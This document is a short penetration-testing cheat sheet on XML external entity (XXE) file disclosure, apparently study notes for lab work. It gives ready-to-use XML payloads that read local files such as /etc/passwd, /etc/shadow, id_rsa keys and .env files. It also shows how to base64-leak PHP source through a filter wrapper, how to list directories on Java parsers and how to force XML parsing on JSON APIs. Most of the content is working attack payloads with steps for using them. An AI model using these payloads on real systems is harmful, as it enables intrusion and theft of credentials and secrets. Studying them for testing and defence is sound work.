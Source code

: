 # File Disclosure

Initial Goal: Identify XML injection point and leak local files via XXE.
#### 1. Detecting Vulnerability

- Intercept request with XML payload.    
- Inject test entity:

```xml
<!DOCTYPE email [ <!ENTITY test "INJECTED"> ]>
<email>&test;</email>
```

- If `INJECTED` is reflected, XXE is possible.    

Use Burp Inspector to identify reflected fields. Inject only into those fields (e.g., `<email>`, `<name>`).
#### 2. Read Local File (Basic)

- Inject external entity referencing a local file:

```xml
<!DOCTYPE email [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<email>&xxe;</email>
```

- If vulnerable, server returns file contents.    

Useful UNIX files:

- `/etc/passwd` (proof of concept)
- `/etc/hostname`, `/etc/shadow`, `.bash_history`, `.env`, `id_rsa`

Useful Windows files:

- `file:///C:/Windows/win.ini`    
- `file:///C:/xampp/apache/logs/access.log`
#### 3. Handling Parser Breakage (Base64 Bypass)

Files with special characters (`<`, `>`, `&`) break XML. Use PHP filter wrapper to base64-encode them.

```xml
<!DOCTYPE email [
  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
<email>&xxe;</email>
```

Decode base64 manually or via Burp → Inspector → Decode → base64.

> Only works on PHP apps.

#### 4. Force XML Parsing (when JSON used)

- Change `Content-Type` to `application/xml`    
- Convert JSON to XML (e.g., `convertjson.com`)
- Inject payload as above

Many APIs accept XML behind the scenes even if they expose JSON.
#### 5. Directory Read (Java-specific behavior)

Some Java-based XML parsers return directory listings:

```xml
<!DOCTYPE email [
  <!ENTITY xxe SYSTEM "file:///var/www/html/">
]>
<email>&xxe;</email>
```

Response may list files in the directory. Follow up with specific file reads.

#### 6. Notes on Entity Placement

- If request has no `<!DOCTYPE>`, inject your own at the top    
- If request has existing `<!DOCTYPE>`, inject entity inside it
- Use fields that reflect data — blind injection fails unless output is shown
